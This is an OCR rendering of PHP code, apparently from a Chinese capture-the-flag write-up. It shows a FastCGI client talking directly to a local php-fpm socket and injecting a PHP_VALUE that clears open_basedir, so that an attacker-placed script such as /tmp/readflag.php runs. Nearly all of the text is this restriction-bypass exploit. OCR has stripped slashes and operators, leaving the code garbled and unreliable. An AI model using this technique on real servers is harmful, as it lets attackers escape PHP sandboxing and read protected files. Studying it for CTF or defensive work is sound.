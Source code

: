                   if ( $resp['requestId'] == $requestId ) {
                      break;
                  }
              }
              if ( microtime( true ) - $startTime = ( $timeoutMs  1000 ) ) {
                   Reset
                  $this-set_ms_timeout( $this-_readWriteTimeout );
                  throw new Exception( 'Timed out' );
              }
          } while ( $resp );
    if ( ! is_array( $resp ) ) {
              $info = stream_get_meta_data( $this-_sock );
               We must reset timeout but it must be AFTER we get info
              $this-set_ms_timeout( $this-_readWriteTimeout );
              if ( $info['timed_out'] ) {
                  throw new TimedOutException( 'Read timed out' );
              }
              if ( $info['unread_bytes'] == 0
                   && $info['blocked']
                   && $info['eof'] ) {
                  throw new ForbiddenException( 'Not in white list. Check listen.allowed_clients.' );
              }
              throw new Exception( 'Read failed' );
          }
           Reset timeout
          $this-set_ms_timeout( $this-_readWriteTimeout );
          switch ( ord( $resp['content']{4} ) ) {
        case selfCANT_MPX_CONN
            throw new Exception( 'This app can't multiplex [CANT_MPX_CONN]' );
            break;
        case selfOVERLOADED
            throw new Exception( 'New request rejected; too busy [OVERLOADED]' );
            break;
        case selfUNKNOWN_ROLE
            throw new Exception( 'Role value not known [UNKNOWN_ROLE]' );
            break;
        case selfREQUEST_COMPLETE
            return $this-_requests[ $requestId ]['response'];
    }
}
}
$client    = new Client(unixtmpphp-cgi-74.sock, -1);
  $php_value = open_basedir = ;
$filepath  = 'tmpreadflag.php';
  $content   = 'hpdoger';
echo $client-request(
      array(
          'GATEWAY_INTERFACE' = 'FastCGI1.0',
          'REQUEST_METHOD'    = 'POST',
          'SCRIPT_FILENAME'   = $filepath,
    'SERVER_SOFTWARE'   = 'phpfcgiclient',
    'REMOTE_ADDR'       = '127.0.0.1',
    'REMOTE_PORT'       = '9985',
    'SERVER_ADDR'       = '127.0.0.1',
    'SERVER_PORT'       = '80',
    'SERVER_NAME'       = 'mag-tured',
    'SERVER_PROTOCOL'   = 'HTTP1.1',
    'CONTENT_TYPE'      = 'applicationx-www-form-urlencoded',
    'CONTENT_LENGTH'    = strlen( $content ),
          'PHP_VALUE'         = $php_value,
),
$content
);
可以用下面代码判断php以什么运行